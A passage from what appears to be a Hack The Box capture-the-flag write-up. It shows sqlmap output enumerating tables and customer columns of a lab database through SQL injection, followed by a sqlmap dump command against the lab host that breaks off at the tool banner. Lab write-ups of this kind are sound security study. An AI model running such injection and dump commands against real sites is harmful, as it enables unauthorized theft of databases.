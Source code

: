 ```
[17:37:48] [INFO] resumed: orderdetails
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 6
[17:37:48] [INFO] resumed: orders
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 8
[17:37:48] [INFO] resumed: payments
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 12
[17:37:48] [INFO] resumed: productlines
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 8
[17:37:48] [INFO] resumed: products
[17:37:48] [INFO] fetching columns for table 'customers' in database 'neddy'
[17:37:48] [INFO] resumed: 13
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 14
[17:37:48] [INFO] resumed: customerNumber
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 12
[17:37:48] [INFO] resumed: customerName
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 15
[17:37:48] [INFO] resumed: contactLastName
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 16
[17:37:48] [INFO] resumed: contactFirstName
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 5
[17:37:48] [INFO] resumed: phone
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 12
[17:37:48] [INFO] resumed: addressLine1
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 12
[17:37:48] [INFO] resumed: addressLine2
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 4
[17:37:48] [INFO] resumed: city
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 5
[17:37:48] [INFO] resumed: state
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 10
[17:37:48] [INFO] resumed: postalCode
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 7
[17:37:48] [INFO] resumed: country
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 22
[17:37:48] [INFO] resumed: salesRepEmployeeNumber
[17:37:48] [INFO] retrieving the length of query output
[17:37:48] [INFO] resumed: 11
[17:37:48] [INFO] resumed: creditLimit
```
<br> I only dumped `filepath` and `idname` because these are the ones I saw in the source of `index.php`.
```
root@kali:~/Desktop/HTB/boxes/unattended# sqlmap -u https://www.nestedflanders.htb/index.php?id=465 -D neddy -T filepath --dump --threads 10                  
       __H__
 ___ ___[']_____ ___ ___  {1.3.4#stable} 
|_ -| . [)]     | .'| . | 
```